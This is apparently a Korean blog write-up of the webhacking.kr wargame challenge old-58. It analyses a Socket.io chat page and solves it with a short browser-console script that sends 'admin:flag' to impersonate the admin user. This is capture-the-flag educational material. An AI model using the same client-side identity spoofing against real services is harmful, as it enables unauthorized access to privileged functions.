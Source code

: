 ```yaml
---
title: '[Wargame] Webhacking.kr old-58 (Javascript)'
date: 2024-03-02 00:00:00
categories: [Wargame, webhacking.kr]
tags: [webhacking, webhacking.kr]
published: True
---
```


## 🚩 문제 파악

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/e51a397e-16fa-4004-a6b6-28169eee9988)

문제에 접속하면 채팅창 모습을 확인할 수 있다. 아무 값을 입력하니 명령어를 찾을 수 없는 문구를 확인할 수 있는 것으로 보아 CLI를 구현해 놓은 것으로 유추할 수 있다.

<br>

`help` 명령어를 입력하니 사용가능한 명령어를 확인할 수 있었고, 다른 명령어를 실행한 결과 위와 같은 응답을 확인할 수 있다.

`id` 명령어를 통해 현재 사용자가 admin 권한을 가지고 있는 것을 확인하였으나, `flag` 명령어를 사용할 수 없는 것을 확인할 수 있다.

소스코드를 확인해보자.

<br>

```javascript
$(function () {
    var username = "guest";
    var socket = io();
    $('form').submit(function(e){
    e.preventDefault();
    socket.emit('cmd',username+":"+$('#m').val());
    $('#m').val('');
    return false;
    });
    socket.on('cmd', function(msg){
    $('#messages').append($('<li>').text(msg));
    });
});
```

`script` 태그 내에서 위와 같은 javascript 코드를 확인할 수 있었다. 해당 스크립트의 역할을 분석하면 다음과 같다.

1. `var socket = io();`

    위 명령을 통해 **Socket.io** 모듈을 사용한다. Socket.io는 node.js 기반 실시간 웹 애플리케이션 지원 라이브러리로, 실시간 채팅을 구현할 때 사용된다.

2. `socket.emit('cmd',username+":"+$('#m').val());`

    socket.emit 명령어는 서버 쪽에서 event를 발생시키는 함수로, 첫 번째 인자는 event의 이름을, 두 번째 인자로는 해당 소켓을 통해 클라이언트에게 메시지를 전달한다.
    사용자가 입력한 값을 cmd 명령어로 실행한다. 이때, username 변수 값을 명령 앞에 붙여 사용하는데 이는 해당 사용자의 권한으로 명령어를 실행함을 의미한다. 여기서 username 변수 값은 'guest'로 되어있다.

3. `socket.on('cmd', function(msg){ $('#messages').append($('<li>').text(msg)); });`

    socket.on 명령어는 첫 번째 인자로 받은 event가 클라이언트에서 emit 되면, 두 번째 인자로 받은 콜백 함수를 실행한다. 응답을 수신하는 기능으로 위에서 전달한 명령어를 실행한 결과 값을 출력하는 역할을 한다.


<br>

우리는 socket 통신을 통해 admin으로 flag 명령어를 실행하고 결과 값을 수신 받으면 되는 문제이다.

---

<br><br>


## 🚩 문제 풀이

---

```javascript
var socket = io();  // 소켓 통신을 시작

socket.emit('cmd','admin:flag');  // cmd 이벤트로 admin:flag를 실행하도록 한다
socket.on('cmd', function(res) {console.log(res)});  // cmd 명령 실행 값을 콘솔 창에 출력한다.
```

콘솔 창에서 위의 코드를 실행한다.

<br>

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/e454d185-a177-45ad-8a0f-67adad24bc0e)

그럼 위와 같이 flag 값을 획득할 수 있다!


